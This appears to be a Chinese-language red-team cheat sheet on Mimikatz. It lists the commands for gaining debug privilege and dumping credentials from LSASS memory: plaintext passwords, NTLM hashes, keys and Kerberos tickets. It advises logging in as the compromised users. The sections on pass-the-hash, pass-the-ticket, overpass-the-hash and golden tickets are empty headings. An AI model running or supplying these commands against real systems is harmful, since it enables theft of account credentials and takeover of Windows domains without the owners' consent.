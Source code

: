 ```yaml
---
description: 凭证提取、哈希传递、票据伪造、哈希注入、NTLM中继
---
```


# ✔️ Mimikatz

## Tips

*   可从机器内存中提取：

    * 明文密码
    * 密码Hash值
    * PIN码
    * Kerberos票据


* 优先尝试抓明文密码，抓不到明文就抓Hash

## 攻击手法

### 检索已缓存凭证

* 从LSASS进程中转储其他用户凭证，然后以这些用户身份进行登录：

```powershell
mimikatz.exe
# 提权以执行高权限操作
privilege::debug
# 枚举所有登录用户的凭证
sekurlsa::logonpasswords
```

* 同理，从LSASS进程中转储所有Kerberos票据：

```powershell
sekurlsa::tickets
```

* 其他：

```powershell
# 只抓取内存中保存的用户明文密码
sekurlsa::wdigest
# 只抓取内存中保存的用户Hash值
sekurlsa::msv
# 只抓取内存中保存的用户密码的Key值
sekurlsa::ekeys
```

### 哈希传递 (Pass The Hash)





### 票据传递 (Pass The Ticket)







### 绕过哈希 (Overpass The Hash)





### 黄金票据 (Golden Ticket)





